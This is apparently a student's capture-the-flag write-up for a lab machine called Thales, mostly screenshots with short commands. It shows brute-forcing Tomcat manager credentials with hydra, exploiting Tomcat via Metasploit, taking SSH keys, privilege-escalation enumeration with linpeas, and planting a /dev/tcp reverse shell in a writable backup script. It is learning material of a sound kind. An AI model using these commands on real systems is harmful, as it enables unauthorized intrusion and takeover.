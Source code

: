 # Exercise 1: Thales

Nmap scans:

![](media/a0c54fb63f29c94c5e486fc72d268901.png)

![](media/2c82f48f4febbcf48e61dd28b15c82e9.png)

![Text Description automatically generated](media/f58a38ebc865fa4611bcb1ec13752d9e.png)

Webpage at port 8080:  
![](media/821e0634392c12abffd837649c1d8a27.png)

(clicked on Manager App)

Default credentials upon google search is admin:admin which did not work

Run dirb:  
![Text Description automatically generated](media/b9d48b92a7ce21001ac2d0053d552d03.png)

/shell/ shows an empty webpage

![Graphical user interface, text, application Description automatically generated](media/764ec86a076c928c398ec39c4a7140bd.png)

When in doubt, brute force!

hydra -L tempusers.txt -P /home/kali/rockyou.txt -f <http://192.168.50.21> http-get /manager/html

Where tempusers.txt contains only two entries: tomcat and admin

![](media/945a48a33bd314e30de2f0b7a430d53f.png)

Search Metasploit for any tomcat exploits that require credentials (use 5th one)

![](media/3b8f37efbc2861c7adac8345bc214988.png)

![Text Description automatically generated](media/567fa52b00074f9fbcd1b243441e5914.png)

Set these options

and run!

Exploring some files:  
![](media/d94b87382e4b9cbffaf12ec9f99dfa62.png)

![](media/19d0b7d973b678d3fed2331b907c29d4.png)

Download both rsa files so we can access ssh using the keys

Type ‘shell’ in meterpreter shell to go to command shell

Then get an interactive shell using python3 -c ‘import pty; pty.spawn(“/bin/bash”)’

Look for writable directories: find / -type d -writable 2\> /dev/null

Download linpeas from kali to target using the classic python SimpleHTTPServer

![Text Description automatically generated](media/69032351b93fdf768a617e348e7bb09e.png)

Result:

![](media/cb11169d5a824e50b34c3df26e60e884.png)

![A screenshot of a computer Description automatically generated with medium confidence](media/ac4e26622eee077620524294350a2466.png)

The sudo 1.8.21p2 and the CVE-2021-4034 exploit did not work due to the errors below which occurs in some machines  
![Text Description automatically generated](media/9bccd0fe99fc179d56dfacc6c29e8476.png)

another possible point of entry is the writable backup script.

![Text Description automatically generated](media/c314fd871ac9bc2ff6685a81315f8d35.png)

Write to backup.sh:

sh -i \>& /dev/tcp/192.168.50.5/4443 0\>&1

Which will create a reverse shell onto our machine on port 4443 (since 4444 is used by Metasploit)

Run nc -nlvp 4443 on kali to listen and wait until the script triggers automatically

![](media/e014c07c410df5d705c1dbe8158d32b9.png)
